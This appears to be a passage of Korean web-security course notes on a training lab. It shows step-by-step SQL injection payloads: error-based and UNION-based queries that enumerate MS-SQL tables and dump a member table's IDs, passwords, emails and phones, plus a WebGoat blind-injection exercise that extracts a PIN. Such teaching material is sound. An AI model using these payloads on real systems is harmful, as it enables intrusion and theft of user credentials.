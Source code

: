     UNION 구문을 사용하기 위한 전제 조건컬럼의 개수와 데이터 타입이 동일해야 한다.
    ⇒ 정상 쿼리(우편번호 조회 쿼리) 실행을 통해서 반환되는 컬럼의 개수와 각 컬럼의 데이터 타입을 확인해야 한다.공격자가 원하는 정보를 포함하고 있는 테이블과 컬럼의 이름을 알고 있어야 한다.
    ⇒ 외부에서 (또는 검색을 통해서) 확인 가능한 DBMS의 시스템 테이블을 우선적으로 사용해야 한다.
    LAB 우편번호 조회 서비스를 이용해서 해당 사이트([http://70.12.50.56:9090](http://70.12.50.56:9090/zipcode.asp))의 계정을 탈취해서 로그인해 보세요.

    * #1 우편번호 조회 서비스를 통해서 반환하는 컬럼의 개수를 확인select * from address where dong = 'a' order by 1 --'
      ⇒ .../zip_code.asp?dong=a' order by 1 --
      ⇒ .../zip_code.asp?dong=a' order by 8 --
      Microsoft OLE DB Provider for SQL Server 오류 '80040e14'ORDER BY 위치 번호 8이(가) SELECT 목록의 항목 번호 범위를 벗어났습니다.
      /zip_search.asp, 줄 21→ 우편번호 조회 서비스를 위한 쿼리는 7개의 컬럼을 반환한다.
      ⇒ **Error-Based SQL Injection**
    * #2 UNION 구문을 이용해서 숫자로 구성된 7개의 값을 출력select * from address where dong = 'a' and 1=2 UNION select 1,2,3,4,5,6,7 --'
      ⇒ .../zip_code.asp?dong=a' and 1=2 UNION select 1,2,3,4,5,6,7 --
      Microsoft OLE DB Provider for SQL Server 오류 '80040e07'varchar 값 '110-753'을(를) 데이터 형식 int(으)로 변환하지 못했습니다.
      /zip_search.asp, 줄 21
    * #3 UNION 구문을 이용해서 해당 DBMS의 종류를 확인
      select * from address where dong = 'a' and 1=2 UNION select 1,db_name(),@@version,4,5,6,7 --' 
    * #4 MS-SQL의 시스템 테이블을 이용해서 해당 DB에서 사용하고 있는 사용자 테이블 목록을 조회
      https://docs.microsoft.com/ko-kr/sql/relational-databases/system-tables/system-base-tables?view=sql-server-2017https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-sysobjects-transact-sql?view=sql-server-2017
      select * from address where dong = 'a' and 1=2 UNION select 1,id,name,4,5,6,7 from sysobjects where xtype='U' --' 
    * #5 member 테이블의 컬럼 정보(이름)를 조회
      https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-syscolumns-transact-sql?view=sql-server-2017
      select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=2073058421 --' 
      select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=(select id from sysobjects where name='member') --' 
    * #6 member 테이블에 정보를 조회select * from address where dong = 'a' and 1=2 UNION select 1,bId,bName,bPass,bMail,bPhone,7 from member --' 

* #5 Blind SQL Injection

  * 참, 거짓에 따라 서버의 반응이 다른 것을 이용한 공격기법
  * WebGoat > Injection Flaws > Blind Numeric SQL Injection
    * 입력한 계정 번호(account number)의 유효성 검증을 수행해주는 서비스
      ![img](https://lh6.googleusercontent.com/9RHkyTjYvqvMKQ3OTMO8pDuJXGAIBwBdgh85otwd7vQ8BHShmh5s_TbSC3i6Cwz2LdoBkEEy0tDW4GPa8CX6J3nCdzKC82m5o21SbZFHRymgTUS4zlk1efMIAKgg51D4mfOGmQ7K)
    * 서버 내부 처리를 예측
      select * from account where account_no = 101
      ⇒ 결과가 있으면 → Account number is valid.
      ⇒ 결과가 없으면 → Invalid account number.
    * select * from account where account_no = 101 and 1=1
      ⇒ 결과가 있을 듯 → Account number is valid.
    * select * from account where account_no = 101 and 1=2
      ⇒ 결과가 없을 듯 → Invalid account number.
    * 내가 찾고자 하는 쿼리문을 추가 했을 때 옳은지 옳지 않은지 확인해볼 수 있다.
  * Q. pins 테이블에서 cc_number의 값이 1111222233334444인 pin 값을 구하시오
    * select pin from pins where cc_number='1111222233334444'
    * select * from account where account_no = 101 and (select pin from pins where cc_number='1111222233334444') = ???? (참인 값=2364)
      ⇒ 참 → Account number is valid.
      ⇒ 거짓 → Invalid account number.

